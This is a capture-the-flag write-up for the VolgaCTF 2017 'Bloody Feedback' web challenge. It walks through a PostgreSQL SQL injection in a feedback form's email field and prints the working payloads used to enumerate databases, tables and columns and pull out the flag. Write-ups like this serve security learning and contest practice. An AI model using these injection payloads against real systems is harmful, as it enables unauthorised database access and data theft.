



# Bloody Feedback - web 100

Author: [@mjdubell](https://twitter.com/mjdubell)

```
Bloody Feedback

Send your feedback at bloody-feedback.quals.2017.volgactf.ru

DO. NOT. USE. SQLMAP
Otherwise your IP will be banned
```

The challenge basically has two functions, 1) Send feedback and 2) view the status of the sent feedback. There is also page that cotains "Top Messages" which is the feedback people send in. When you send feedback you get a token back which you can use to see if the feedback has been processed or not.

I first tried to steal cookies via the feedback form but it turned out that everything was filtered. My second try involved finding a SQL injection vulnerability at the feedback status page:

```
http://bloody-feedback.quals.2017.volgactf.ru/check/?code=<token here>
```



I got nothing, the only thing I could deduce was that every feedback sent, had a default status of "not processed". I assumed this would change after a while but it never did.

My next attempt was to intercept the POST submission from the feedback form with burp to see if any parameters were vulnerable. By entering `lol'` as email, the following error was triggered:

```
<div class="container">
<div class="page-header">
<h2>Error</h2>
</div>
<div class="alert alert-danger">
	<p>ERROR: DBD::Pg::db do failed: ERROR:  syntax error at or near "not"
	LINE 1: ...HRkIBBUOq9M40ZqvsB1TcwWVWt','smacker','m','lol'','not proces...
	                                                 ^ at Worker.pm line 29.</p>
</div>
</div>
```

I realised that when you send your feedback, the program automatically inserts "not processed" along with the feedback. My working theory at ths point was to substitute the "not processed" field with an SQL query of my choosing. After a few tries I constructed the following query:

```
name=smacker&message=m&email=lol',(select version()))--
```

However I got an error message indicating that the field allows a maximum of 30 chars, so I simply added substring():

```
name=smacker&message=m&email=lol',(select substr(version(),0,30)))--
```



Now when I checked the status page of my feedback with the token I got, instead of seeing "not processed", I saw `PostgreSQL 9.5.6 on x86_64-pc`. Now I knew how to display my SQL queries on the site, by overwriting the "not processed" field.

So I tried a few other things:
```
user = fcgi_user         =>  name=smacker&message=m&email=lol',(select substr(user,0,30)))--
database = feedback_db   =>  name=smacker&message=m&email=lol',(select substr(current_database(),0,30)))--
```

Since the field can't hold multiple rows/values, I had to use LIMIT X OFFSET Y in order to step through each element in the set that the database returned. The following code snippets shows how I enumerated the database to find the flag.

**Databases:**
```
postgres => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 1))--
template1 => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 2))--
feedback_db => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 3))--
```

**TABLES:**
```
s3cret_tabl3 => name=smacker&message=m&email=lol',(select table_name FROM information_schema.tables WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
```

**COLUMNS:**
```
name =>  name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
email => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 2))--
message => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 3))--
status => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 4))--
id => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 5))--
s3cr3tc0lumn => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 6))--
```

**Time to get the rows from `s3cr3tc0lumn`**
```
VolgaCTF => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 1))--
Volga => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 2))--
1 => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 3))--
VolgaCTF{eiU7UJhyeu@ud3*} => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 4))--
```



**Flag: VolgaCTF{eiU7UJhyeu@ud3\*}**